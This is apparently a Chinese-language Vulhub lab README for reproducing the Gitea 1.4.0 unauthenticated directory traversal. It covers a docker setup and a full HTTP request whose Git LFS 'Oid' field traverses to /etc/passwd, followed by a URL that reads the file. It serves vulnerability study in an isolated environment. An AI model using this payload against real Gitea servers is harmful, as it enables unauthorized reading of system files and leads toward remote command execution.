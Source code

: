 # Gitea 1.4.0 目录穿越导致命令执行漏洞

Gitea是从gogs衍生出的一个开源项目，是一个类似于Github、Gitlab的多用户Git仓库管理平台。其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

参考链接：

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 漏洞环境

执行如下命令启动启动漏洞环境：

```
docker compose up -d
```

环境启动后，访问`http://you-ip:3000`，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

安装完成后，创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：

![](1.png)

然后，需要执行一次`docker compose restart`重启gitea服务。（原因详见第二个参考链接）

## 漏洞复现

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如`vulhub/repo`，发送如下数据包，添加一个Git LFS对象：

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

然后，访问`http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`，即可看到`/etc/passwd`已被成功读取：

![](2.png)
